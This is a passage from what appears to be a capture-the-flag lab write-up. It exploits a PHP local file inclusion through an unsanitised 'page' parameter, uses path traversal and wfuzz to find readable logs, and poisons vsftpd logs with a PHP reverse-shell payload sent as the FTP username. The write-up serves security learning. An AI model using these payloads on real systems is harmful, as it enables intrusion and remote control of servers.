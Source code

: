 It results in a Base64-encoded string which contains the PHP source code of the specified file:
```
cat dashboard.b64 | base64 -d > dashboard.php
```

After downloading all files and going through them, the file _index.php_ contains an _include_ statement:
```php
if(isset($_GET['page'])) {
      include($_GET['page']);
    }
    else
    {
      include("dashboard.php");
    }
```

The parameter _page_ includes files from the local system and the **LFI** can be proofed by browsing to a path on the server:
```
http://10.10.10.249/admin../admin_staging/index.php?page=../../../../../../var/www/html/admin_staging/dashboard.php
```

Using **wfuzz** to fuzz for Linux directories that can be accessed with the LFI:
```
wfuzz -u http://10.10.10.249/admin../admin_staging/index.php?page=../../../../../..FUZZ -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt --hh 15349
```
```
/var/log/faillog
/var/log/vsftpd.log
/var/log/wtmp
/var/log/lastlog
```

It is possible to access the _vsftpd.log_ and because it is included in the PHP script, it will execute anything that is in PHP tags.
By sending PHP code to the FTP service on port 21 and then accessing the file, the code will be executed to gain code execution.

### Log Poisoning FTP Logs

Creating PHP code with reverse shell command:
```
<?php system("bash -c 'bash -i >& /dev/tcp/10.10.14.6/9001 0>&1'"); ?>
```

Connecting to FTP and using the PHP code as the username:
```
ftp 10.10.10.249

Connected to 10.10.10.249.
220 (vsFTPd 3.0.3)
Name (10.10.10.249:root): <?php system("bash -c 'bash -i >& /dev/tcp/10.10.14.6/9001 0>&1'"); ?>
331 Please specify the password.
Password:
530 Login incorrect.
ftp: Login failed
```
